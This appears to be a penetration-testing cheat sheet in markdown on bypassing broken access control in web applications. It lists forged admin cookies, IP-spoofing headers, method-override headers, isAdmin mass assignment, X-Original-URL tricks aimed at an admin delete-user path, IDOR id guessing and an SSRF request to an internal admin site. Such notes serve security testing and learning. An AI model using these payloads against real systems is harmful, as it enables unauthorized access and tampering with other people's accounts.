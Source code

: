 ```yaml
---
title: Broken Access Control
description: The attacking methodology of broken access control in web applications. If we got 401 or 403 HTTP response, try to bypass it using the following methods in this post.
tags:
    - Web
refs:
date: 2023-03-03
draft: false
---
```


## Change Header Values

### Cookie

We may be able to get access to the login-required pages.

```txt
Cookie: admin=true
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
```

### IP Spoofing

```txt
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```

<br />

## Change Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## POST Parameters

```sh
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

### X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## GET Parameters

```sh
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator

# GUID cannot be guessed but it may be found somewhere in the website.
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br />

## Access Page via SSRF

If there is another website that is owned by same orginazation, we may be able to see the target website with SSRF.

```bash
https://example.com?url=https://admin.example.com/
```